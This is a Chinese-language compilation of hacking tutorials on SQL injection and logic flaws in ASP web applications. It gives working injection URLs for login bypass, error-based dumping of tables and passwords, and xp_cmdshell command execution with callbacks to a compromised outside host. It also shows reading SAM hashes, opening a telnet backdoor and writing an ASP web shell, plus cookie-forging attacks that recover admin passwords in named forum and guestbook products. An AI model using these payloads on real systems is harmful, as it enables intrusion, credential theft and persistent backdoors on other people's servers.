SQL Injection攻击如此好用，可是介绍这种攻击方法的中文资料却很少。本文只介绍针对ASP+ SQL Server的SQL Injection攻击，其他系统的待日后慢慢总结出来。

- 测试环境：
  - Windows 2000 Server + SP2
  - IIS 5.0
  - SQL Server 2000

## 二、什么是SQL Injection

SQL Injection按照字面上的意思来翻译就是“SQL注射”，不过我更喜欢把它翻译成“SQL插入”，它的含义就是利用某些数据库的外部接口把用户数据插入到实际的数据库操作语言当中，从而达到入侵数据库乃至操作系统的目的。

我们都知道，利用Web脚本语言做前台 + 数据库做后台的应用系统中，必须有一些东西是来自用户提交的信息，例如用户登陆名和密码，信息条目ID，搜索字符串等等。如果这些由用户提交的信息或用户可以修改的信息被攻击者所利用，就可能把本来正确的SQL语句篡改成攻击者所想要的语句。下面举一个简单的ASP程序的例子来说。

我们首先在SQL Server里面建立一个数据库mydb，然后在里面建立一个名为login表：

```sql
create database mydb;
create table login
(
    userid smallint IDENTITY(1,1) PRIMARY KEY CLUSTERED,
    username varchar(20) NOT NULL,
    password varchar(10) NULL
)
```

这就是我们后面要操作的表，里面包含用户ID，用户名和密码，现在我们往里面添加一个用户：

```sql
insert into login (username, password) values ('isno', 'testit')
```

用户名是isno，密码是testit的一个用户，下面我们用一个ASP脚本来访问这个数据库来进行登录验证。

```html
<HTML>
<HEAD>
<TITLE>测试ASP页面</TITLE>
</HEAD>
<BODY>
<%
  dim conn
  dim connstr
  uname=Request.QueryString("username")
  pword=Request.QueryString("password")
  Set conn = Server.CreateObject("ADODB.Connection")
  connstr="driver={SQL Server};server=localhost;uid=sa;pwd=mypasswd;database=mydb"
  conn.Open connstr
  Set RS=conn.Execute("SELECT * from login where username='"&uname&"' AND password='"&pword&"'")
  IF NOT RS.EOF THEN
    Response.Write("登陆成功<BR>")
  ELSE
    Response.Write("登陆失败<BR>")
  END IF
  RS.Close
  conn.Close
%>
</BODY>
</HTML>
```

我们这个ASP程序命名为test.asp，这个ASP程序很简单，就是通过用户提交的URL来确认用户名和密码是否是数据库中的用户名和密码，如果都符合就是显示“登录成功”，否则就显示“登录失败”。我们可以注意到这一行代码：

```vb
conn.Execute("SELECT * from login where username='"&uname&"' AND password='"&pword&"'")
```

这里使用了一个SELECT查询语句来对login表进行查询，其中查询语句中的uname和pword都来自于用户提交的QueryString，并把这两个字符串都嵌入到了SQL查询语句当中。如果我们通过浏览器提交这样的URL，

```text
http://localhost/test.asp?username=isno&password=testit
```

那么将会返回给我们“登录成功”。因为，我们提交的用户名和密码被合成到SQL查询语句当中之后是这样的：

```sql
SELECT * from login where username='isno'
AND password='testit'
```

因为这个用户名和密码与我们前面建立的数据库当中的login表中的数据一样，所以会显示登陆成功。如果我们把密码随便输入一个：

```text
http://localhost/test.asp?username=isno&password=some
```

那么将会给我们返回“登录失败”，这是毫无疑问的。但是，如果我们提交这样的URL：

```text
http://localhost/test.asp?username=isno&password=some' or 1=1--
```

结果怎么样？浏览器返回给我们“登录成功”，这说明如果是实际登陆程序的话，我们就已经可以不需要密码而直接登陆进入了。那么，这到底是什么原因呢？就是因为我们提交的数据被嵌入到SQL查询语句之后变成了如下的样子：

```sql
SELECT * from login where username='isno'
AND password='some' or 1=1--'
```

因为1＝1是永远成立的，而且--之后的东西是被SQL Server忽略的，所以无论密码是什么，这个查询语句都会返回成功。这就是典型的利用SQL Injection的攻击。

通过以上例子，你应该明白SQL Injection是什么原理了吧？其实很简单，就是利用用户提交或者可以修改的数据，把我们想要的SQL语句插入到系统实际的SQL语句当中，从而达到入侵的目的。

但是黑客要的并不是仅仅绕过密码验证这么简单，而是要利用SQL Injection来入侵数据库乃至入侵系统本身，这还需要一些其他的技巧。

## 三、利用SQL Injection入侵数据库

一般来说，电子商务网站中的重要数据都存储在后台数据库中，所以攻击者首先考虑的就是入侵到数据库当中。

#### 1. 如何确定 ASP 程序是否存在漏洞

那么，怎样仅仅通过浏览器就能确定一个 ASP 程序有 SQL Injection 漏洞呢？还以上面的有 SQL Injection 漏洞的 ASP 程序为例，假设我们现在就是攻击者。因为我们可以修改的 URL 中的数据部分有 username=isno&password=some，所以我们可以在其中一个加上单引号来进行试验。

```text
http://localhost/test.asp?username=isno&password=some'
```

浏览器会返回一个错误信息。


这就说明 test.asp 这个程序有 SQL Injection 问题，但是，根据 IIS 的配置不同，可能会显示“HTTP 500－内部服务器错误”这样的信息，这也是存在 SQL Injection 漏洞的证据。当然，也可能对方的 ASP 程序的错误处理写得好，那么可能什么错误信息都不返回，这就要根据经验来进行推测了。

#### 2. 如何得到后台数据库信息

好了，我们利用这种方法可以推测出一个 ASP 程序是否存在漏洞，那么怎么样利用它来对数据库进行操作呢？聪明的读者可能会说，“这还不简单？就在单引号后面加入 SQL 操作语句不就行了吗？”但是事实并不是这样简单，因为对于一个实际的入侵情形来讲，入侵者是不可能知道后台数据库的数据库名、表名、列名等信息的，因为无法写出正确的 SQL 语句。

那么怎么办呢？对了，我们可以利用返回的错误信息来得到数据库名、列名和表名。对于上面的例子，我们在浏览器中输入如下 URL。

```text
http://localhost/test.asp?username=isno&password=some' having 1=1--
```

浏览器会返回一个错误信息。


having 1=1 是和 GROUP BY 子句一起使用的一个条件判断 SQL 语句，因为我们提交的数据不正确，所以返回的错误信息就会告诉我们一个表名和列名 `login.userid`。这样我们就获得了想要的一些信息，然后我们可以通过提交如下 URL 来获得 login 表中的其他列名：

```text
http://localhost/test.asp?
username=isno&password=some' group by login.
userid having 1=1--
```

浏览器会返回一个错误信息。


这个错误返回信息又告诉了我们 login 表中的另外一个列名：username。继续使用这种方法，我们可以不断地得到 login 表中的所有列名。

```text
http://localhost/test.asp?
username=isno&password=some' group by login.
userid, login.username having 1=1--
```

浏览器会返回一个错误信息。


再提交

```text
http://localhost/test.asp?username=
isno&password=some' group by login.userid,
login.username,login.password having 1=1--
```

浏览器没有返回错误信息，而是显示“登录失败”，这说明我们已经得到了login表的全部3个列名：userid、username和password。

但是仅仅得到了列名还无法对数据库进行操作，因为我们还不知道这些列的数据类型。用如下方法可以得到其数据类型。

```text
http://localhost/test.asp?username=
isno&password=some' union select sum(username)
from login--
```

浏览器会返回一个错误信息。

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL Server]
> sum or average aggregate 运算不能以 varchar 数据类型作为参数。
> /test.asp，行14

这说明了username列的数据类型是varchar类型的，用同样的方法我们可以知道password列也是varchar类型的。当提交的是sum(userid)时，返回的错误信息是：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
> [Microsoft][ODBC SQL Server Driver][SQL Server]
> 包含 UNION 运算符的 SQL 语句中的所有查询都必须在目标列表中具有相同数目的表达式。
> /test.asp，行14

所以说明了userid可以进行sum()运算，因此它应该是int、smallint等整数类型。

好了，这样我们就得到了test.asp这个程序所操作的数据库表名是login，而login这个表里包含3个列名：userid(int或smallint类型)、username(varchar类型)、password(varchar类型)。知道了这些信息以后，我们就完全可以对这个表进行操作了，例如我们可以给里面添加一个用户：

```text
http://localhost/test.asp?username=
isno&password=some'; insert into login values
('hacker','hackpass')--
```

虽然浏览器会返回“登录失败”，但是实际上这样就添加了一个名为hacker的用户，它的密码是hackpass。读者可能会有疑问，为什么没有插入userid的值呢？因为根据经验，凡是和ID有关的值都是表的主列，也就是可以自动增长的，所以我们不用制定这个值。

#### 3. 读取数据库中的数据

因为我们已经知道了login表中有哪些列，所以我们很容易利用union子句来读出login表中的任意数据，例如：

```text
http://localhost/test.asp?username=
isno&password=some' union select min(username),
1,1 from login where username>'i'--
```

浏览器会返回一个错误信息：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL Server]
> 将 varchar 值 'isno' 转换为数据类型为 smallint 的列时发生语法错误。
> /test.asp，行14

这告诉了我们一个用户名是isno，然后我们可以用同样的方法得到这个用户的密码。

```text
http://localhost/test.asp?username=
isno&password=some' union select min(password),
1,1 from login where username='isno'--
```

浏览器会返回一个错误信息：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL Server]
> 将 varchar 值 'testit' 转换为数据类型为 smallint 的列时发生语法错误。
> /test.asp，行14

这样就得到了用户名isno和密码testit。但是这种方法一次只能得到一个用户名和密码，如果我们想要得到所有的用户名、密码，就需要试很多次，这是非常麻烦的。怎样能一次得到全部的用户名和密码呢？我们可以用一系列SQL语句来把用户名和密码读出来存入一个表的列中，然后再想办法把这个字符串类型的列和某个整数类型相关联，这样就可以在错误信息里显示出我们想要的东西了。我们需要这么一个SQL脚本来完成这些功能：

```sql
begin declare @ret varchar(8000)
set @ret=''
select @ret=@ret+' '+username+'/'+password
from login where username>@ret
select @ret as ret into tmp
end
```

我们提交一个包含这个脚本的URL：

```text
http://localhost/test.asp?username=
isno&password=some' begin declare @ret varchar
(8000) set @ret='' select @ret=@ret%2B' '
%2Busername%2B'/'%2Bpassword from login where
username>@ret select @ret as ret into tmp end--
```

其中%2B是'+'的ASC编码，因为'+'在URL里有特殊的含义，所以应该用%2B来代替。这个URL的意思就是把上面的脚本放在一行上，然后利用SQL Injection插入进去，这样就会生成一个名为tmp的表，包含一个列ret，里面存放了所有的用户名和密码。然后我们在利用前面的union方法来读取tmp表的ret列：

```text
http://localhost/test.asp?username=isno&password=some' union select ret,1,1 from tmp--
```

浏览器会返回一个错误信息：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]
将 varchar 值 ' isno/testit hacker/hackpass' 转换为数据类型为 smallint 的列时发生语法错误。
/test.asp，行14
```

这样就可以看到login表中所有的用户名和密码了。

最后别忘了删除这个临时建的表tmp：

```text
http://localhost/test.asp?username=isno&password=some'; drop table tmp--
```

### 4. 对 int 类型的数据进行SQL Injection攻击

前面我们看到的SQL Injection攻击都是针对字符型数据(char或varchar等)进行的。但是还有一类常见的ASP程序是利用信息条目ID来查询数据，而一般这些信息条目ID都是int或者smallint等整数类型的数据，因此，对这类整数类型数据进行SQL Injection攻击就需要一些特殊的方法。

请看下面ASP程序：

```html
<HTML>
<HEAD>
<TITLE>测试ASP页面</TITLE>
</HEAD>
<BODY>
<%
dim conn
dim connstr
uid=Request.QueryString("userid")
Set conn = Server.CreateObject("ADODB.Connection")
connstr="driver={SQL Server};server=localhost;uid=sa;pwd=mypass;database=mydb"
conn.Open connstr
Set RS=conn.Execute("SELECT UserId, UserName from login where UserId="&uid)
Response.Write("UserId "&RS("UserId")&" UserName"&RS("UserName")&"<BR>")
RS.Close
conn.Close
%>
</BODY>
</HTML>
```

把它保存为testint.asp，我们通过下面的URL来访问这个脚本。

```text
http://localhost/testint.asp?userid=1
```

浏览器会返回给我们userid等于1的用户名，也就是isno。如果我们想对这个脚本进行SQL Injection攻击，首先也是要利用一些方法来获取数据库的表和字段等信息，因为这是整型数据，所以我们不能通过GROUP子句等方法来插入数据了，但是我们同样可

以使用UNION子句造成错误信息来得到我们要的东西。提交如下URL：

```
http://localhost/testint.asp?userid=1 union
select top 1 table_name,table_name from information_schema.tables--
```

其中系统表 `information_schema.tables` 包含了系统中所有表的信息，这个表中的 `table_name` 字段包含了所有的表名。因为在我们提交了上面的URL之后，浏览器返回：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> 
> [Microsoft][ODBC SQL Server Driver][SQL Server] 将 nvarchar 值 'syssegments' 转换为数据类型为 smallint 的列时发生语法错误。
> 
> /testint.asp，行13

这就告诉了我们，在当前数据库中包含一个 `syssegments` 表，这个是在建立数据库时系统自动生成的表，我们不关心。接下来我们就可以继续提交：

```
http://localhost/testint.asp?userid=1 union
select top 1 table_name,table_name from information_schema.tables where table_name not in ('syssegments')--
```

浏览器会返回：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> 
> [Microsoft][ODBC SQL Server Driver][SQL Server] 将 nvarchar 值 'login' 转换为数据类型为 smallint 的列时发生语法错误。
> 
> /testint.asp，行13

这就告诉了我们当前的表名为 `login`，然后我们就可以利用 `information_schema.columns` 表中的 `column_name` 字段来得到 `login` 表中的字段名：

```
http://localhost/testint.asp?userid=1 union
select top 1 column_name,column_name from information_schema.columns where table_name='login'--
```

浏览器会返回：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> 
> [Microsoft][ODBC SQL Server Driver][SQL Server] 将 nvarchar 值 'userid' 转换为数据类型为 smallint 的列时发生语法错误。
> 
> /testint.asp，行13

这告诉了我们 `login` 表中一个字段 `userid`，我们可以继续得到其他的字段：

```
http://localhost/testint.asp?userid=1 union
select top 1 column_name,column_name from information_schema.columns where table_name='login' and column_name not in ('userid')--
```

浏览器返回：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> 
> [Microsoft][ODBC SQL Server Driver][SQL Server] 将 nvarchar 值 'username' 转换为数据类型为 smallint 的列时发生语法错误。
> 
> /testint.asp，行13

这样我们就得到了表 `login` 中的字段名 `userid` 和 `username`，利用这种方法我们可以逐步得到 `login` 表中的所有字段名了。

得到数据库的信息之后，我们就可以利用上一节中的方法对数据库进行操作以及得到数据库当中的信息，这里不再赘述了。

## 四、利用SQL Injection入侵系统

前面我们所讲述的都是利用SQL Injection技术来分析以及入侵SQL Server数据库的例子，但是对于黑客而言，仅仅入侵到数据库是远远不够的，更进一步的想法自然是入侵整个目标操作系统。下面我们就来讲述一下如何利用SQL Injection技术来进行操作系统级别的入侵。

#### 1. 获取系统信息

和对数据库的入侵一样，我们在入侵系统之前一般总会想要得到一些关于操作系统的信息。SQL Server中有一个名为 `@@version` 的全局变量可以为我们提供这方面的信息。同样，利用把这个信息侵入到错误信息中的方法，我们就可以得到想要的系统信息了。

还以前面那个 `test.asp` 程序为例，我们提交如下URL：

```
http://localhost/test.asp?username=isno&password=testit' union select @@version,1,1--
```

浏览器返回：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'

[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'Microsoft SQL Server 2000 - 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (C) 1988-2000 Microsoft Corporation Standard Edition on Windows NT 5.0 (Build 2195: Service Pack 2)' 转换为数据类型为 smallint 的列时发生语法错误。

/test.asp，行14
```

这样就得到了SQL Server和操作系统以及Service Pack的版本号，为我们进一步入侵打下了坚实的基础。

## 2．利用扩展存储过程

扩展存储过程是SQL Server提供的一类用来扩展数据库功能的命令，它们是通过DLL来实现的。利用扩展存储过程，几乎可以做到任何我们想要在系统中做的事情。

##### （1）执行任意命令

`xp_cmdshell` 是一个可以用来执行系统命令的扩展存储过程，使用起来也很简单，例如：`exec master..xp_cmdshell 'dir'`，就可以执行 `dir` 命令了。我们利用SQL Injection可以直接把 `xp_cmdshell` 嵌入到URL里面，以达到执行系统命令的目的。例如：

```
http://localhost/test.asp?username=isno&password=testit';exec master..xp_cmdshell 'dir'--
```

但是这里有一个问题，所执行的命令的结果并不会通过浏览器返回给我们，那么我们怎么才能知道命令是否执行成功了没有呢？其实办法有很多，例如我们可以在一台有真实IP的肉鸡上用 `nc` 监听UDP的53端口，然后在目标系统上执行 `nslookup` 命令来查询那个肉鸡，看肉鸡上是否有反应就可以了。具体方法如下：

在肉鸡 `192.168.0.103` 上执行 `nc -u -l -p 53` 命令，当然前提是已经有了 `nc` 这个程序。然后利用SQL Injection在目标机上执行下面URL：

```
http://localhost/test.asp?username=isno&password=testit';exec master..xp_cmdshell 'nslookup a.com 192.168.0.103'--
```

这时在 `192.168.0.103` 上面会显示一些乱码，并且发出“嘀”的响声，这证明命令确实成功执行了。

然后我们就可以利用 `xp_cmdshell` 来执行TFTP、FTP等命令上传文件，对目标机器进行入侵了。具体操作过程这里就不再赘述了，相信各位黑侠对这些命令都了如指掌。

##### （2）操作注册表

SQL Injection提供一系列扩展存储过程来帮助我们对注册表进行操作，主要有下面这几个：

- `xp_regaddmultistring`
- `xp_regdeletekey`
- `xp_regdeletevalue`
- `xp_regenumkeys`
- `xp_regenumvalues`
- `xp_regread`
- `xp_regremovemultistring`
- `xp_regwrite`

这些扩展存储过程的具体用法都比较简单，就不在这里介绍了。举一个例子，例如我们可以使用 `xp_regread` 来读取注册表中的SAM信息，可以从中取得加密过的用户密码，再使用其他工具进行解密：

```
exec master..xp_regread HKEY_LOCAL_MACHINE,'SAM\SAM\Domains\Account\Users\000001F4','F'
```

##### （3）操作服务

使用 `xp_servicecontrol` 这个扩展存储过程，可以对系统服务进行操作，例如我们可以把telnet服务打开：

```
sql
exec master..xp_servicecontrol 'start', 'tlntsvr'
```

我们再结合对注册表进行修改，可以改变telnet服务的登陆认证方式，这样就可以成功打开一个 `cmd.exe` 后门。

## 3．利用自定义的扩展存储过程

除了使用系统中已经存在的扩展存储过程以外，我们还可以使用自己定义的扩展存储过程。例如，我们写了一个DLL程序，可以使用下面命令使它成为扩展存储过程。

```
sql
sp_addextendedproc 'xp_myproc', 'c:\temp\xp_mine.dll'
```

然后，我们就可以利用SQL Injection插入下面的语句来执行我们自己的扩展存储过程：

```
sql
exec xp_myproc
```

当使用完自定义的扩展存储过程之后，不要忘记把它删除：

```
sql
sp_dropextendedproc 'xp_myproc'
```

## 4．对文件的操作

我们可能要把一些数据库中的内容转存到文本文件当中，或者将文本文件导入数据库，这时候也可以在SQL Injection当中完成。

利用 `bulk` 可以把文本文件导入到一个临时表里面：

```
sql
bulk insert foo from 'c:\temp\test.txt'
```

如果我们想通过SQL Injection来查看系统中的文本文件，就可以使用 `bulk insert` 把文件导入数据库，然后结合前面的 `union` 方法把表中的文本在错误信息当中显示出来。

## 5．利用ActiveX自动脚本

SQL Server提供了一类内置存储过程用来实现WSH脚本，也就是可以使用VBScript和JavaScript中的大部分对象。下面用几个例子来说明ActiveX自动脚本。

### （1）使用wscript.shell运行任意程序

```
sql
declare @o int
exec sp_oacreate 'wscript.shell'
exec sp_oamethod @o, 'run', NULL, 'notepad.exe'
```

这样的脚本就可以直接嵌入到要SQL Injection的URL里面去：

```
text
http://localhost/test.asp?username='usno&password=testit' declare @o int exec sp_oacreate 'wscript.shell' exec sp_oamethod @o, 'run', NULL, 'notepad.exe'--
```

### （2）使用scripting.filesystemobject读取任意文本文件

```
sql
declare @o int, @f int, @t int, @ret int
declare @line varchar(8000)
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'opentextfile', @f out, 'c:\boot.ini', 1
exec @ret=sp_oamethod @f, 'readline', @line out
while(@ret=0)
begin
print @line
exec @ret=sp_oamethod @f, 'readline', @line out
end
```

### （3）在WWW目录下建立一个用来执行任意命令的ASP程序

```
sql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\foo.asp', 1
exec @ret=sp_oamethod @f, 'writeline', NULL, '<% set o=server.createobject("wscript.shell"):o.run(request.querystring("cmd"))%>'
```

## 常见ASP程序漏洞


### ——逻辑错误篇

文／Mix

对于常见的ASP程序漏洞，除了变量未过滤特殊字符外，最常见的漏洞形成原因就是程序的逻辑错误了。对此，我们可以通过几个实例来看看漏洞的成因及利用方法。

我们首先以动网论坛3.0为例，相信很多人看到这里，都会想现在都出到6.0了，为什么还要用3.0呢？其实，这只是以此为例说明问题，动网论坛3.0是这方面漏洞的代表。另外，你用google搜一下就会发现还是有很多使用这个版本的用户。而且，动网论坛3.0的源代码在网上几乎是绝版了，其官方网站上更是早早地就删掉了！笔者通过一晚上的不懈努力，才在一个好心人那里“借”到的。从另一个方面讲，这正好大大地加强了它的安全性，但是是否真的安全呢？

首先，根据PsKey和Envyimask的文章，可以看到动网5.0以下的版本大多数文件都没有正确地过滤cookies中的信息，这样我们可以通过cookies欺骗来在论坛中“发帖子”等等。可惜的是，3.0版本的动网cookies的有效期很短，关闭浏览器就失效了，不容易用来做cookies欺骗。其次，在5.0时期闹得很凶的 `mymodify.asp` 文件泄漏用户密码的问题，在3.0中并不存在。再者，3.0的动网论坛的用户密码放在 `user` 表中，而后台管理员的密码放在 `admin` 表中，后台文件的访问是靠session判断的，并不是靠cookies来判断的。

我们当然没有这么快就放弃，来看看 `admin_news.asp` 文件中的一段代码：


眼睛好的朋友可能已经发现了问题，在这个文件中没有过滤cookies的任何内容，也没有检查cookies中的信息是不是都是真实的，就贸然地带入了sql语句中查询。最关键的还是cookies中的 `userclass` 一项，赋值给 `memberclass` 后，程序居然就直接靠它来判断用户等级。如果 `memberclass` 的值（等级）是第9级（`user_level9`）的话，就会用 `session("masterlogin")="superadmin"` 这句话来产生session信息！同样的错误还出在 `chkmanage.asp` 文件中，这样我们只需要构造好相应的cookies变量 `userclass` 就可以得到这个session信息。

单单是这样的得到session信息是远远不够的，我们返回来看看admin后台文件中是怎样通过session信息判断管理员是否登录的，下面是 `admin_admin.asp` 的一段代码：

```
if session("masterlogin")<>"superadmin" then
    Errmsg=Errmsg+"<br>"+"<li>本页面为管理员专用，请<a href='elogin.asp'>登录管理</a>后进入。"
    call Error()
end if

<form action="admin_admin.asp?action=update" method=post>
<input type=hidden name="oldusername" value="<%=rs("username")%>">
<input type=text name="username" value="<%=rs("username")%>"><br>
<input type=text name="password" value="<%=rs("password")%>"><br>
<input type=submit name="Submit" value="更新">
</form>
```

这个地方会将当前论坛管理员后台密码显示出来。

这样，我们就整理出了得到动网论坛3.0管理员密码的攻略了：

- 在论坛中正常申请一个账号。
- 构造cookies，将其中的 `userclass` 修改成“管理员”（动网程序会判断其为 `user_level9`），当然要转换成 `%B9%DC%C0%ED%D4%B1`。
- 调用 `admin_news.asp` 文件，得到session信息。
- 连同session信息，调用 `admin_admin.asp`，从中获得当前管理员的账号密码。

笔者简单地用两段perl脚本实现上述过程，使用方法按脚本中的提示进行，如图1、图2、图3所示，可以大致了解每个步骤。

脚本A：


脚本B：


其实，笔者以前对session信息一直都很模糊，感觉这个东西似乎是一个看不见摸不着，但确实存在于服务器和浏览器之间的信息。通过上面的这个例子，我们就能够很直观地认识到session信息也是可以读写出来的一些数据，是服务器向客户端发送的一些数据信息，只不过每次都不一样且默认存活时间为20分钟而已。

下面这个例子源于一个朋友托我检查一下他用的留言本有没有严重漏洞，结果这一看，又被我发现了缺陷。他使用的是卓卓留言本。先来看看其


他居然简单地用检查cookies里admin项是否为空来判断管理员是否正常登录。这样我们就只需要构造相应的cookies来登录administer.asp，而且还可以在这个页面的密码修改栏中看到管理员原来的密码，也就是代码中的value="<%=passwords%>"这句话。

先前的例子，我们揭开了session的秘密，这里我们又要引出另外一个问题，揭开cookies的一个秘密。常在论坛灌的朋友都应该知道，cookies可以保存1年、1个月、一个星期、1天，或者是“关闭浏览器就消失”！对于这种关闭浏览器就消失的cookies信息，是不会以文件的形式保存在系统中的，它只保存在浏览器与服务器之间的活动连接中。高手们可以通过看ASP代码来还原出正确的cookies信息，但是像我们大多数人当然就没有那个能力，到底怎么样才能得到这种cookies信息正确的格式呢？大家不妨先认真想想再看下面的内容。

嗅探？域名欺骗？还是自己装个IIS来调试？实际上，一个小工具就可以解决大问题——网络瑞士军刀nc.exe，再配上网上免费的主页空间就可以解决了。先上传零点留言本到免费的网上的免费主页空间，再保存零点留言本的管理员登录页面，并修改POST的地址为http://127.0.0.1/login.asp（图4）。


administer.asp文件中开头的一段代码，这个文件是管理员登录以后设置留言本信息的一个主要文件。


用浏览器打开上面保存的htm文件。先在CMD下面运行`nc -l -p 80 > 1.txt`，这样就可以监听到login.asp的提交信息，再在刚才浏览器的页面中添上默认密码“means19821008”，因为我们上传到免费主页空间的还没有改密码。按“提交回复”提交数据后，就可以从1.txt中看到我们需要提交的数据了。

```http
POST /zz/login.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/msword, */*
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows 98)
Host: 127.0.0.1
Content-Length: 71
Connection: Keep-Alive
menu=login&password=means19821008&save=&submit=%CC%E1%BD%BB%B5%8B%B4
```

修改这个文件，将127.0.0.1改为免费空间的主机域名，将`POST /login.asp`改为免费空间的具体路径，然后使用`nc -vv www.target.com 80 < 1.txt > 2.txt`，将这些数据提交到免费空间上的login.asp，并且得到其返回的数据，保存在2.txt中。

```http
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Tue, 05 Aug 2003 13:10:57 GMT

HTTP/1.1 302 Object moved
Server: Microsoft-IIS/5.0
Date: Tue, 05 Aug 2003 13:10:57 GMT
Location: administer.asp
Content-Type: text/html
Set-Cookie: admin=means19821008; path=/zz
Set-Cookie: save=; path=/zz
Set-Cookie: password=; path=/zz
Set-Cookie: ASPSESSIONIDFFTECRQH=ECBIPEMDFMLBIPFBNBBBDEGNGC; path=/
Cache-control: private
Transfer-Encoding: chunked

74
<head><title>对象已移动</title></head>
<body><h1>对象已移动</h1>此对象在 <a HREF="administer.asp">here</a>。</body>
0
```

好了，我们得到了服务器设置cookies的命令（Set-Cookie...）了，把这些数据返回给浏览器。执行`nc -l -p 80 < 2.txt`，再在上面的那个浏览器中的本地密码提交页面中提交密码。由于我们没有用nc返回administer.asp的数据，所以浏览器可能返回错误，但是错误，但是我们需要的cookies已经存在于浏览器的活动连接中了。执行`nc -l -p 80 > 3.txt`，再刷新浏览器，就可以在3.txt中看见如下信息。

```http
POST /zz/login.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/msword, */*
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows 98)
Host: 127.0.0.1
Content-Length: 77
Connection: Keep-Alive
Cookie: admin=means19821008; save; password; ASPSESSIONIDFFTECRQH=ECBIPEMDFMLBIPFBNBBBDEGNGC

menu=login&password=means19821008&save=&submit=%CC%E1%BD%BB%B5%8B%B4
```

看到了吗？`Cookie: admin=means19821008; save; password;` 这一句就是我们想要的数据了，带上这个cookies数据去请求administer.asp文件就可以通过它的管理员是否登录的判断，然后得到管理员页面了，察看其源代码就得到原来的管理员密码了。同样用`nc -vv www.target.com 80 < 4.txt > 5.htm` 来提交数据，4.txt文件内容如下，结果将保存到5.htm中。

```http
GET /zz/administer.asp
Host: www.target.com
Cookie: admin=means19821008; save; password
```

好了，常见ASP程序漏洞就介绍完毕了，大家是否都清楚了呢？回想一下以前在网上看到的那些已公布的ASP程序漏洞，是不是基本上都包括在这两种范围内，是不是很想马上就找一个ASP系统来大显身手呢？呵呵！

注：本文目的是为了探讨以及技术研究小结，请不要用于破坏，大家自重！

## 利用 ASP 口令验证

### 漏洞突破网页验证限制

文／姜超

网络上的入侵手法不过就是那几种，大家使用过这些手法之后是不是就对这些入侵手法感到厌烦了。其实，可以成功攻进一个系统不可能总是利用直接攻击的手法就可以办到的，并且在现实情况下，这种直接攻击的手法逐渐失效（现在的系统日益坚固）。相比之下，间接攻击技术方面有时候比直接攻击更实用。下面就来演示一下如何使用ASP口令验证漏洞来突破有密码限制的网页。

大家平时在网络上是不是常常见到图1所示的网页呢？如果要想进入这种网页必须去注册才能得到密码。但是有时候这些注册是要交费的，但是你又很想进去看里面的内容怎么办啊？当然就是入侵啦！

### ASP口令验证漏洞原理

### （1） 什么是ASP口令验证

图1页面的功能就是对用户的进入做限制的功能。这个网页只能让知道正确用户名和密码的人进入，如果输入密码错误就会自动跳转到图2的界面。


图 2

### （2） 网页口令验证原理

大家都看到图2中URL里的jiangchao.asp了吧！这个jiangchao.asp就是来验证你是否有资格进入页面的关键。我们来看口令验证的ASP部分。


图 1

```asp
Dim strsql, recordset
strsql="select * from accounts where user='" & user
strsql=strsql & "' and password='" & password & "'"
set recordset=GetsqlRecordset(strsql, "conanhdb", "accounts")
if recordset.EOF Then
    Response.Write "对不起！您输入的账号或密码有错误，请输入正确账号和密码。"
End If
```

如果大家懂得一点编程的话，就很容易理解代码的意思。这些数据都存在conan.mdb的数据库文件里。当用户在登录图1的界面后输入用户名和密码点击登录以后，就会通过jiangchao.asp里的下面两行代码和数据进行比较。

```asp
strsql="select * from accounts where user='" & user
strsql=strsql & "' and password='" & password & "'"
```

这两行SQL语句的作用就是把用户在页面上输入的用户名和密码与conan.mdb里的用户名和密码进行比较，如果对比成功就会进入正常的页面，如果对比错误，就会跳到报告有错误信息的页面里，具体的请看示意图3。


### （3） ASP漏洞具体分析

了解了前面的知识后，现在我们就来研究一下ASP口令验证的原理！

当我们在网页里输入账号为jiangchao，密码为12345后点击“确定”完毕，服务器收到数据然后把数据传送给jiangchao.ASP程序前，将user设为jiangchao字符串，密码设为12345字符串。在实例中，我以user和password两个变量换成jiangchao和12345代替，所以由原来的sql语句变成下面的新语句，具体语法示意如图4所示。

```text
strsql="select * from accounts where user='" &
jiangchao
strsql=strsql & "' and password='" & 12345 & "'"
```


**注意**

在执行这个程序之前，变量会把当时内容替换成对应的字符串，所以用户假如输入账号jiangchao 密码12345，程序执行以前就会换成下面的语句：

```text
strsql="select * from accounts where user='" &
jiangchao
strsql=strsql & "' and password='" & 12345 & "'"
=select * from accounts where user='jiangchao' and password='12345'
```

如果我输入用户名“jiangchao' or user<>'jiangchao”，密码“jiangchao' or password<>'jiangchao”，程序就会变成如下语句：

```text
strsql="select * from accounts where user='" &
jiangchao' or user<>'jiangchao
strsql=strsql & "' and password='" & jiangchao' or user<>'jiangchao & "'"
=select * from accounts where user='jiangchao' or user<>'jiangchao' and password='jiangchao' or user<>'jiangchao'
```

